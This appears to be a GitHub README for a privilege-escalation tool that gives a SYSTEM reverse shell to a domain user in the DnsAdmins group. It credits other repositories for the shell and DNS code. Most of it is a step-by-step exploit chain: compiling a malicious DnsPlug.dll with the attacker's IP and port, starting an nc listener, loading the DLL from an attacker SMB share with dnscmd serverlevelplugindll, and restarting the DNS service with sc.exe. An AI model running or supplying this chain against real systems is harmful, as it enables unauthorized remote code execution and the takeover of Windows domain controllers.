 ## Gain system reverse shell from domain user with Dnsadmin group
  
    
Reverse shell is practically copy-paste from `dev-frog/C-Reverse-Shell` (here on Github)  
The DNS api are greatly inspired by `vbscrub`  
  
# Compile & execute
*NB!:* Remember to edit the `DnsPlug.cpp` file to match IP and Port of attacker.
```bash
# x86_64-w64-mingw32-gcc -shared -o DnsPlug.dll DnsPlug.cpp -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
.. Setup NC listener
# nc -lnvp 443
.. go to Windows machine
PS > dnscmd.exe <target.ip> /config /serverlevelplugindll \\<your_smb>\<share_name>\DnsPlug.dll
PS > sc.exe \\<target.ip> stop dns
PS > sc.exe \\<target.ip> start dns
```
